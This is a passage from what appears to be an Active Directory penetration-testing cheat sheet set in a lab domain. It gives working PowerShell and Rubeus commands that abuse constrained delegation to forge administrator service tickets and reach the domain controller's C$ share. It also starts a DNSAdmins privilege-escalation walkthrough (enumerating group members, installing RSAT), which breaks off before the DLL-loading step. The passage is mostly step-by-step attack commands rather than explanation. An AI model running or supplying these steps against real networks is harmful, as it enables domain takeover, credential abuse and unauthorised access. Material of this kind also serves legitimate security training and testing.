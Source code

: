 2. Using s4u from Rubeus (no SNAME validation) it is possible to ask for a TGS also for *time* and *ldap* services (remember to include in the *altservice* field also the first service):
    
    ```powershell
    # Rubeus
    .\Rubeus.exe s4u /ticket:deleg.kirbi /impersonateuser:administrator /msdsspn:cifs/cyberlab-dc.cyberlab.cybercorp.local /altservice:cifs,time,ldap,http,wsman,host,rpcss /ptt
    ```
    

An alternative in case of SYSTEM level compromise of a machine with constrained delegation enabled:

1. Impersonate the Administrator account:
    
    ```powershell
    [Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
    $idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
    $idToImpersonate.Impersonate()[System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
    ```
    
2. Try to access the service (in case the COMPUTER1 is allowed to delegate to DC CIFS service):
    
    ```powershell
    ls \\cyberlab-dc.cyberlab.cybercorp.local\c$
    ```

## DNSAdmin

It is possible for the members of the DNSAdmins group to load arbitrary DLL with the privileges of *dns.exe* (SYSTEM). In case the DC also serves as DNS, this will provide us escalation to DA. Privileges to restart the DNS service are needed.

1. Enumerate the members of the DNSAdmis group
    
    ```powershell
    # PowerView
    Get-NetGroupMember -GroupName "DNSAdmins"
    
    # ActiveDirectory Module
    Get-ADGroupMember -Identity "DNSAdmins"
    ```
    
    Once we know the members of the DNSAdmins group, we need to compromise a member.
    
2. Install DNS RSAT tools (if not present):
    
    ```powershell
    Get-WindowsCapability -Name RSAT* -Online | Add-WindowsCapability –Online
    ```
    
3. From the privileges of DNSAdmins group member, configure DLL using dnscmd.exe (needs RSAT DNS):
    